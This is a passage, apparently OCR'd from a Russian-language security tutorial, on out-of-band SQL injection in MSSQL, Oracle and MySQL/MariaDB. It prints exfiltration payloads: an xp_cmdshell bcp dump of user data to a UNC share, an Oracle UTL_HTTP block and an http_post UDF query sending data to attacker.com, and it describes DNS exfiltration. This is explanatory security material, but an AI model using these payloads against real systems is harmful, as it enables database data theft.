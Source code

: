 `EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';`
В качестве альтернативы OPENROWSETили BULK INSERTможет использоваться для взаимодействия с внешними источниками 
данных, облегчая утечку данных через каналы OOB.

Оракул

В базах данных Oracle, Out-of-band SQL инъекция может быть выполнена с использованием пакетов UTL_HTTP или UTL_FILE .
Например, пакет UTL_HTTP может быть использован для отправки HTTP- запросов с конфиденциальными данными:
```commandline

DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```
Примеры внеполосных методов

Методы SQL-инъекции вне диапазона в MySQL и MariaDB могут использовать различные сетевые протоколы для извлечения 
данных. Основные методы включают DNS-извлечение, HTTP- запросы и SMB- общие ресурсы. Каждый из этих методов может 
применяться в зависимости от возможностей среды MySQL/MariaDB и настроек сети.

HTTP- запросы

Используя функции базы данных, которые разрешают HTTP- запросы, злоумышленники могут отправлять конфиденциальные 
данные напрямую на контролируемый ими веб-сервер. Этот метод использует функциональные возможности базы данных, 
которые могут создавать исходящие HTTP- подключения. Хотя MySQL и MariaDB изначально не поддерживают HTTP- запросы, 
это можно сделать с помощью внешних скриптов или пользовательских функций (UDF), если база данных настроена на 
разрешение таких операций.

Во-первых, необходимо создать и установить UDF для поддержки HTTP- запросов. Эта настройка сложна и обычно требует 
дополнительной конфигурации. Пример запроса будет выглядеть так SELECT http_post('http://attacker.com/exfiltrate', 
sensitive_data) FROM books;: .

Эксфильтрация HTTP-запросов может быть реализована в системах Windows и Linux (Ubuntu) в зависимости от поддержки 
базой данных внешних скриптов или UDF, которые разрешают HTTP- запросы.

DNS- эксфильтрация 

Злоумышленники могут использовать SQL-запросы для генерации DNS-запросов с закодированными данными, которые 
отправляются на вредоносный DNS-сервер, контролируемый злоумышленником. Этот метод обходит системы мониторинга на 
основе HTTP и использует способность базы данных выполнять DNS- поиск.
